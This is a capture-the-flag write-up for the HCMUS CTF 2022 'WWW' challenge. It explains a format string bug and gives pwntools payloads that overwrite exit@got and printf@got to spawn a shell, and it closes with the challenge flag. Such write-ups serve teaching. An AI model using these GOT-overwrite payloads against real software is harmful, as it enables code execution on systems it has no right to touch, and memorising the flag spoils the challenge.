




# HCMUS CTF 2022 - WWW

You can download the zip in my repo: [WWW.zip](WWW.zip)

There will be 2 files in zip:

- chall
- chall.c

Now let's start!

# 1. Find bug

First, let's check for all basic information of challenge file:

```bash
$ file chall
chall: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=a918629eeca0adc8c95f8e416831429c25edae1d, for GNU/Linux 3.2.0, not stripped

$ checksec chall
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

This is a 64-bit file without being stripped. We can also see that `RELRO` is not fully on.

Now, we've already had the source file so let's analyze it to see what do we have. First, look at `main`, we can see there is a **Format String** bug:

```c
int main(int argc, char **argv)
{
	...
	fgets(buffer, sizeof(buffer), stdin);
	printf(buffer);
	puts("Great name for an artist!");
	...
}
```

And that's all we can find, just **Format String** so let's move on!

# 2. Idea

- First idea:

I tried to leak the address of `__libc_start_main_ret` and find it on https://libc.blukat.me/ but no libc are found.

- Second idea:

We can see that the binary is already have `system@plt` and the `RELRO` is `Partial` so we can overwrite any @got as we want. 

So the idea is that we will change `exit@got` into `main` because `exit@plt` just execute when we choose option `d` --> easy to control. After that, we will overwrite `printf@got` into `system@plt` with format string `%ln` (I have tried with `%n`, `%hn` and `%hhn` before but not `%ln`) and the reason why I choose printf is because printf will have 1 argument which is our input so if we change `printf@got` into `system@plt`, `printf("/bin/sh")` will execute `system("/bin/sh")`.

The reason why I choose `%ln` is that because `printf` is already resolved, so `printf@got` will contain the address of `printf` of libc and it takes 6 bytes. But with `%n`, we can only change 4 bytes so I chose `%ln`.

After we changed `printf@got` into `system@plt`, choosing option `d` and we input the string `/bin/sh` and we get the shell.

Summary:

- Stage 1: Overwrite `exit@got` into `main`
- Stage 2: Overwrite `printf@got` into `system@plt`

# 3. Exploit

### Stage 1: Overwrite `exit@got` into `main`

So first, we will gdb the program to get the address of `main` and `exit@got` (`exit@got` haven't resolved yet):

```gdb
gef➤  disas ariana
Dump of assembler code for function ariana:
   ...
   0x00000000004013f1 <+20>:	mov    edi,0xffffffff
   0x00000000004013f6 <+25>:	call   0x401140 <exit@plt>
End of assembler dump.

gef➤  x/3i 0x401140
   0x401140 <exit@plt>:	endbr64 
   0x401144 <exit@plt+4>:	bnd jmp QWORD PTR [rip+0x2f0d]        # 0x404058 <exit@got.plt>
   0x40114b <exit@plt+11>:	nop    DWORD PTR [rax+rax*1+0x0]

gef➤  x/xg 0x404058
0x404058 <exit@got.plt>:	0x00000000004010b0

gef➤  p&main
$1 = (<text variable, no debug info> *) 0x40146f <main>
```

So the address is different at 2 least significant bytes, `0x10b0` of `exit@got` and `0x146f` of `main`. 

Now, we will want to get the format string offset to see at what k in payload `%<k>$p` will be our input. We will try with 10 `%p`:



We can see at the `%10$p` is our input. So let's make script to change `exit@got` into `main` now.

Because this is a 64-bit file so the address will have null bytes, and also because printf will stop executing at null bytes so if we puts the address at the begining of our input, printf will not execute `%n` after the address. Hence, we will put all the address at the end of our input.

As we've analyzed above, 2 least significant bytes of `exit@got` is different from `main` so we will use `%hn` to change:

```python
payload = f'%{0x146f}c%12$hn'.encode()
payload = payload.ljust(0x10, b'P')
payload += p64(exe.got['exit'])
p.sendlineafter(b'name?', payload)
```

In here I use `%12$hn` because we've already pad to make its length before the address is `0x10`, hence the format string offset will be `10 + 2 = 12`.

Run script and attach with gdb, we can see the address of `exit@got` changed:



### Stage 2: Overwrite `printf@got` into `system@plt`

Now, let's check the `printf@got` to see the address:



You can see that `printf@got` is containing 6 bytes of address. Now we will want to change `printf@got` to `system@plt` because @got just save address, @got cannot execute the address.

We can do with the same format of payload as above:

```python
payload = f'%{0x401100}c%12$ln'.encode()
payload = payload.ljust(0x10, b'P')
payload += p64(exe.got['printf'])
p.sendlineafter(b'Adele', b'd' + payload)
```

The address of `system@plt` is at `0x401100` and we use `%ln` to set all 8 bytes to null and add `0x401100` pad to overwrite `printf@got` to `0x401100`.

Ah and one thing to remember is that because `scanf(" %c", &menu_option)` just input one byte so if we input a character and press enter (`\n`), that newline byte will go to the `fgets` when the program jump back to main.

That's why I send `b'd' + payload`.

Now the program jump back to main and ask for input. Let's check if `printf@got` is changed or not:


So in the next input, we will input string `/bin/sh` and `printf("/bin/sh")` will execute `system("/bin/sh")`:

```python
payload = b'/bin/sh\x00'
p.sendlineafter(b'Adele', b'd' + payload)
```

Full script: [solve.py](solve.py)

# 4. Get flag



Flag is `HCMUSCTF{0n3_g4dg3t_js_n0t_tk3_s0lutj0n_t0_4ll_pr0bl3ms}`